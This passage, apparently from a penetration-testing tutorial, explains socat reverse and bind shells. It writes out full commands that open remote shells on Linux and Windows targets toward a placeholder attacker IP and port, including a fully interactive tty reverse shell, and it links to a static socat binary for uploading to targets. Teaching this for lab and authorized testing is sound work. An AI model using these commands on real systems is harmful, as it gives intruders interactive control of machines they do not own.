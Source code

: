 `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

<ins>_Bind Shells_</ins>

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**, creates the process in a new session
* **sane**, stabilises the terminal, attempting to "normalise" it.
